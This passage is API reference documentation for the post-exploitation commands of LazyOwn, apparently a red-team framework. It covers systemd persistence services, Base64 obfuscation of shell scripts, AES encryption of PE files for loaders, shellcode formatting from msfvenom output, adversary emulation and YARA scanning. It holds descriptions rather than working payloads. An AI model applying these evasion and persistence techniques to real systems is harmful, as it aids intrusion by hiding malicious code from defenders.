| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input, is the command to execute, if not presented is whoami |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_service_ssh"></a>

#### `PostexpMigratedCommandSet.do_service_ssh`

`method` | [cli/commands/postexp_migrated.py:1866](../../cli/commands/postexp_migrated.py#L1866)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_service_ssh(self, line)
```

Creates a systemd service file for a specified binary and generates a script to enable and start the service.

This function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script
to enable and start the service. The script is saved in the sessions directory and a command is provided to execute
the script remotely via SSH.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input containing the name of the binary. If an absolute path is not provided, a default path is used. |

**Returns:** None

**Raises**

- `None`

**Example**

```pycon
>>> service my_binary_name
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_ofuscatesh"></a>

#### `PostexpMigratedCommandSet.do_ofuscatesh`

`method` | [cli/commands/postexp_migrated.py:1940](../../cli/commands/postexp_migrated.py#L1940)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_ofuscatesh(self, line)
```

Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.

This function reads the content of a shell script file, encodes it in Base64, and constructs a command
that can be used to decode and execute the encoded script using `echo` and `base64 -d`.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The path to the shell script file to be obfuscated. If not provided, a default path is obtained from the [`get_users_dic`](utils.py.md#get_users_dic) function. |

**Returns:** None

**Example**

```pycon
>>> ofuscatesh /path/to/script.sh or just ofuscatesh
# This will read the script, encode it in Base64, and prepare a command to decode and execute it.
```

*Calls:* [`copy2clip`](utils.py.md#copy2clip), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="postexpmigratedcommandset-do_ofuscate_payload"></a>

#### `PostexpMigratedCommandSet.do_ofuscate_payload`

`method` | [cli/commands/postexp_migrated.py:1970](../../cli/commands/postexp_migrated.py#L1970)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_ofuscate_payload(self, line)
```

Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.

This function reads the content of a shell script file, encodes it in Base64, and constructs a command
that can be used to decode and execute the encoded script using `echo` and `base64 -d`.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The path to the shell script file to be obfuscated. If not provided, a default path is obtained from the [`get_users_dic`](utils.py.md#get_users_dic) function. |

**Returns:** None

**Example**

```pycon
>>> ofuscatesh /path/to/script.sh or just ofuscatesh
# This will read the script, encode it in Base64, and prepare a command to decode and execute it.
```

*Calls:* [`copy2clip`](utils.py.md#copy2clip)

<a id="postexpmigratedcommandset-do_adversary"></a>

#### `PostexpMigratedCommandSet.do_adversary`

`method` | [cli/commands/postexp_migrated.py:1997](../../cli/commands/postexp_migrated.py#L1997)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_adversary(self, line)
```

LazyOwn RedTeam Adversary Emulator, you can configure your own adversaries in adversary.json

Example: adversary 1 r

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input, first argument optional is the id of Adversary, the second optional argument is if the adversary run locally (l), remote (r), or doesn't run (n) |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`load_adversary`](utils.py.md#load_adversary), [`replace_placeholders`](utils.py.md#replace_placeholders)

<a id="postexpmigratedcommandset-do_ofuscate_string"></a>

#### `PostexpMigratedCommandSet.do_ofuscate_string`

`method` | [cli/commands/postexp_migrated.py:2145](../../cli/commands/postexp_migrated.py#L2145)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_ofuscate_string(self, line)
```

Ofuscate a string into Go code.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

<a id="postexpmigratedcommandset-do_path2hex"></a>

#### `PostexpMigratedCommandSet.do_path2hex`

`method` | [cli/commands/postexp_migrated.py:2187](../../cli/commands/postexp_migrated.py#L2187)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_path2hex(self, line: str) -> None
```

Convert a binary path to x64 little-endian hex code for shellcode injection.

Generates an 8-byte aligned hex string padded with '/' for direct use in
x64 assembly syscall examples. Output format mimics: 0x68732f2f6e69622f ('/bin/sh').

License: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)

Technical Process:
    1. Null-terminate input
    2. Pad with '/' to 8 bytes
    3. Convert to little-endian 64-bit hex
    4. Validate ASCII-only characters

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Input path (e.g., '/bin/ls') |

**Example**

```python
Input:  '/bin/sh'
Output: 0x68732f2f6e69622f
```

<a id="postexpmigratedcommandset-do_hex2shellcode"></a>

#### `PostexpMigratedCommandSet.do_hex2shellcode`

`method` | [cli/commands/postexp_migrated.py:2234](../../cli/commands/postexp_migrated.py#L2234)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_hex2shellcode(self, line: str) -> None
```

Convert raw hex payload from msfvenom into NASM-compatible shellcode format.

Transforms a continuous hex string (e.g., msfvenom output) into a properly formatted
assembly data section with line-wrapped db directives. Handles byte alignment and
validation.

License: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)

Technical Process:
    1. Validate hex format and remove non-hex characters
    2. Split into byte pairs (xx) -> 0xXX format
    3. Wrap into db lines (16 bytes per line)
    4. Generate length calculation via shellcode_len

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Raw hex string from msfvenom (e.g., "4831c94881e9f6...") |

**Raises**

- `ValueError`: (raised in the body, not documented)

**Example**

```python
Input: 4831c94881e9f6
Output:
    db 0x48,0x31,0xc9,0x48,0x81,0xe9,0xf6
```

<a id="postexpmigratedcommandset-do_create_synthetic"></a>

#### `PostexpMigratedCommandSet.do_create_synthetic`

`method` | [cli/commands/postexp_migrated.py:2291](../../cli/commands/postexp_migrated.py#L2291)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_create_synthetic(self, line)
```

Create a basic synthetic playbook from Nmap CSV when LLM fails.

Usage: create_synthetic <csv_file> [playbook_name]
Example: create_synthetic nmap_results.csv SyntheticPlaybook

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`create_synthetic_yaml`](utils.py.md#create_synthetic_yaml), [`parse_nmap_csv`](utils.py.md#parse_nmap_csv), [`save_playbook`](utils.py.md#save_playbook)

<a id="postexpmigratedcommandset-do_extract_yaml"></a>

#### `PostexpMigratedCommandSet.do_extract_yaml`

`method` | [cli/commands/postexp_migrated.py:2343](../../cli/commands/postexp_migrated.py#L2343)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_extract_yaml(self, line)
```

Extract YAML from an existing debug file and try to create a playbook.

Usage: extract_yaml <debug_file> [playbook_name]
Example: extract_yaml debug_AutoGeneratedPlaybook.txt MyPlaybook

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`manual_yaml_extraction`](utils.py.md#manual_yaml_extraction), [`parse_yaml_response`](utils.py.md#parse_yaml_response), [`preprocess_llm_response`](utils.py.md#preprocess_llm_response), [`save_playbook`](utils.py.md#save_playbook)

<a id="postexpmigratedcommandset-do_convert_remcomsvc_from_file"></a>

#### `PostexpMigratedCommandSet.do_convert_remcomsvc_from_file`

`method` | [cli/commands/postexp_migrated.py:2405](../../cli/commands/postexp_migrated.py#L2405)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_convert_remcomsvc_from_file(self, arg)
```

Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go. see lazyaddon GoPEInjection Usage: convert_remcomsvc_from_file Return: Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arg` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_adversary_yaml"></a>

#### `PostexpMigratedCommandSet.do_adversary_yaml`

`method` | [cli/commands/postexp_migrated.py:2439](../../cli/commands/postexp_migrated.py#L2439)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_adversary_yaml(self, line)
```

Execute adversary from YAML in lazyadversaries/*.yaml Syntax: adversary [id] [l|r|n]

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`replace_placeholders`](utils.py.md#replace_placeholders)

<a id="postexpmigratedcommandset-do_add2find"></a>

#### `PostexpMigratedCommandSet.do_add2find`

`method` | [cli/commands/postexp_migrated.py:2524](../../cli/commands/postexp_migrated.py#L2524)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_add2find(self, line='')
```

Add a new custom command to the 'find' system, saved in user_commands.json.

Usage: add2find
You will be prompted for:
- Alias (descriptive name)
- Command (the actual shell/command to execute)

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  | `''` |  |

**Example**

```python
Alias: LIN My Custom Recon
Command: find / -name "*.log" 2>/dev/null

The command will be available in 'find' immediately and persist across sessions.
```

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="postexpmigratedcommandset-do_rmfromfind"></a>

#### `PostexpMigratedCommandSet.do_rmfromfind`

`method` | [cli/commands/postexp_migrated.py:2552](../../cli/commands/postexp_migrated.py#L2552)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_rmfromfind(self, line)
```

Remove a custom command by index (as shown in 'find').

Only removes user-added commands (not defaults).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_aes_pe"></a>

#### `PostexpMigratedCommandSet.do_aes_pe`

`method` | [cli/commands/postexp_migrated.py:2581](../../cli/commands/postexp_migrated.py#L2581)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_aes_pe(self, line)
```

Encrypt with AES and random key to PE EXE file, to usage with loaders.

Usage: aes_pe
You will be prompted for:
- the PE Exe file (descriptive name)

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
aes_pe

The files key.bin and cipher.bin will be available in 'sessions' immediately and persist across the web server.
```

*Calls:* [`AESencrypt`](core.crypto.py.md#aesencrypt), [`dropFile`](core.crypto.py.md#dropfile), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="postexpmigratedcommandset-do_yara_scan"></a>

#### `PostexpMigratedCommandSet.do_yara_scan`

`method` | [cli/commands/postexp_migrated.py:2610](../../cli/commands/postexp_migrated.py#L2610)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_yara_scan(self, line)
```

Scan files or directories with YARA rules for malware/IOCs.

Usage: yara_scan <target_path> [--download-rules]

Scans the target path with default LazyOwn YARA rules covering
webshells, Cobalt Strike, reverse shells, credential theft, and
persistence mechanisms.  Auto-installs yara-python if missing.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`YaraScanner.__init__`](modules.yara_scanner.py.md#yarascanner-__init__), [`YaraScanner.compile_all`](modules.yara_scanner.py.md#yarascanner-compile_all), [`YaraScanner.download_community_rules`](modules.yara_scanner.py.md#yarascanner-download_community_rules), [`YaraScanner.scan_directory`](modules.yara_scanner.py.md#yarascanner-scan_directory), [`YaraScanner.scan_file`](modules.yara_scanner.py.md#yarascanner-scan_file), [`create_default_rules`](modules.yara_scanner.py.md#create_default_rules)

---
